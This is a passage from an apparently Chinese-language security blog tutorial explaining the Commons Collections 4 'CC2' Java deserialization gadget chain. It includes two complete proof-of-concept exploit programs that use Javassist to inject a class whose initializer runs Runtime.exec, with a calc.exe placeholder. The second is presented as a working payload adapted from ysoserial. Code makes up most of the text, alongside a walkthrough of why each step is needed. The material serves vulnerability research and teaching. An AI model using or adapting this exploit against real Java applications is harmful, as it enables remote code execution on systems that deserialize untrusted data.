import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class TestJavassist {

    public static void main(String[] args) throws Exception {
        Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
        constructor.setAccessible(true);
        InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
        TransformingComparator Tcomparator = new TransformingComparator(transformer);
        PriorityQueue queue = new PriorityQueue(1);

        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
//        cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");
        setFieldValue(templates, "_class", null);

        Object[] queue_array = new Object[]{templates,1};
        Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
        queue_field.setAccessible(true);
        queue_field.set(queue,queue_array);

        Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
        size.setAccessible(true);
        size.set(queue,2);

        Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        comparator_field.setAccessible(true);
        comparator_field.set(queue,Tcomparator);
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```
由于这个链于第一个payload 不同，在这里我讲解每一段代码的用法
#### 0x1 
通过反射实例化`InvokerTransformer`对象，设置`InvokerTransformer`的`methodName`为`newTransformer`；  
**这里做的目的是为了调用后面我们设置的**`**TemplatesImpl**`**的**`**newTransformer**`**方法，而这个**`**Tcomparator**`**就如第一个poc一样，将进入**`**comparator.compare()**`**方法，进行**`**transform**`**方法，进而执行**`**method.invoke(input,this.args)**`**，为后续做铺垫**
```java
Constructor constructor = Class.forName("org.apache.commons.collections4.functors.InvokerTransformer").getDeclaredConstructor(String.class);
constructor.setAccessible(true);
InvokerTransformer transformer = (InvokerTransformer) constructor.newInstance("newTransformer");
TransformingComparator Tcomparator = new TransformingComparator(transformer);
PriorityQueue queue = new PriorityQueue(1);
```
#### 0x2
这里需要使用javassit对应的代码，为什么要继承AbstractTranslet类？这里为什么要将类转换成`byte`数据，并且还一定要放置在`byte[][]`中？
```java
//实例化一个ClassPool容器
ClassPool pool = ClassPool.getDefault();
//向pool容器类搜索路径的起始位置插入AbstractTranslet.class
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
//新建一个CtClass，类名为Cat
CtClass cc = pool.makeClass("Cat");
//设置一个要执行的命令
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
//制作一个空的类初始化，并在前面插入要执行的命令语句
cc.makeClassInitializer().insertBefore(cmd);
//重新设置一下类名，生成的类的名称就不再是Cat
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
//        cc.writeFile();
//继承AbstractTranslet类 **重点**
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
//将该类转换为字节数组
byte[] classBytes = cc.toBytecode();
//将一维数组classBytes放到二维数组targetByteCodes的第一个元素
byte[][] targetByteCodes = new byte[][]{classBytes};
```
在这里因为我们使用的`TemplatesImpl`，在其对应的`_bytecodes`参数中，是需要一个二维byte数组，并且在后续需要实例化`_bytecodes`的时候会检查是否继承了`AbstractTranslet`类

#### 0x3
在这里通过给实例化的templates中的`_bytecodes`，`_name`，`_class`赋值操作，由于这些参数都是`private`，只能通过反射赋值，且`_bytecodes`为`javassit`动态生成的恶意类，`_name`可以为任意值，但是不能为空，`_class`一定为null，为什么要这样，在调试的时候再做解释
```java
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "1");
setFieldValue(templates, "_class", null);
public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.set(obj, value);
}

public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```
#### 0x4
第一部分相当于是给queue赋值，相当于执行add操作，第二部分是给queue设置为2，第三部分就是在poc中强调的部分，最后通过反射将comparator绑定到实例化的queue中
```java
Object[] queue_array = new Object[]{templates,1};
Field queue_field = Class.forName("java.util.PriorityQueue").getDeclaredField("queue");
queue_field.setAccessible(true);
queue_field.set(queue,queue_array);

Field size = Class.forName("java.util.PriorityQueue").getDeclaredField("size");
size.setAccessible(true);
size.set(queue,2);

Field comparator_field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
comparator_field.setAccessible(true);
comparator_field.set(queue,Tcomparator);
```
#### 0x5
模拟网络传输，执行序列化与反序列化
```java
try{
    ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./cc2.bin"));
    outputStream.writeObject(queue);
    outputStream.close();

    ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./cc2.bin"));
    inputStream.readObject();
}catch(Exception e){
    e.printStackTrace();
}
```
### 分析
在inputStream.readObject()处打断点，跟进直到`comparator.compare()`方法中进入`comparator.compare()` 方法中在这里可以看到这里会去执行TemplatesImpl.newTransformer()方法`方法
在这里可以看到0x3中说`_name`可以为任意值，但不能为null，以及`_class`要为null，因为只有当`_class`为null，才能执行`defineTransletClasses()`函数进入`defineTransletClasses`函数，可以看到这个注释，大概意思就是会返回对自定义的类
`loader.defineClass(_bytecodes[i]);` 将字节数组还原为Class对象  ,`_class[0]`就是恶意类
这里对比父类是否是`AbstractTranslet`,这里就解释了0x2中为什么一定要继承`AbstractTranslet`如果`_transletIndex`没有被赋值（初始值为-1）,那么在下面的if语块中就会抛出异常在这里实例化`_class[_transletIndex].newInstance()`，也就是我们使用Javassit生成的恶意代码（执行`Runtime.getRuntime.exec()`）
## 总结
构造CC2要比CC1更复杂，其中CC2使用TemplatesImpl需要注意

- comparator不需要再构造transformerChain，而是需要调用TemplayesImpl的newTransformer方法
- 恶意类需要继承AbstractTranslet类
- 对应的参数一定要构造正常

链路为TemplatesImpl.newTransformer -> getTransletInstance() -> defineTransletClasses -> 得到字节数组还原为的Class对象 -> 实例化
最后添加根据`ysoserial CC2` 的payload，改了一个可用的poc
```java
package com.myproject;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.CannotCompileException;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class yso2CC2 {
    public static void main(String[] args) throws Exception {
        InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
        queue.add(1);
        queue.add(2);
        setFieldValue(transformer,"iMethodName","newTransformer");
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass cc = pool.makeClass("Cat");
        String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
        cc.makeClassInitializer().insertBefore(cmd);
        String randomClassName = "EvilCat" + System.nanoTime();
        cc.setName(randomClassName);
//        cc.writeFile();
        cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));

        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        setFieldValue(templates, "_bytecodes", targetByteCodes);
        setFieldValue(templates, "_name", "1");

        Object[] queueArray = (Object[]) getFieldValue(queue, "queue");
        queueArray[0] = templates;
        queueArray[1] = 1;
        try{
            ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("./ycc2.ser"));
            outputStream.writeObject(queue);
            outputStream.close();

            ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream("./ycc2.ser"));
            inputStream.readObject();
        }catch(Exception e){
            e.printStackTrace();
        }

    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
}

```
## 参考链接
[https://xz.aliyun.com/t/8164](https://xz.aliyun.com/t/8164)

[https://xz.aliyun.com/t/10387](https://xz.aliyun.com/t/10387)

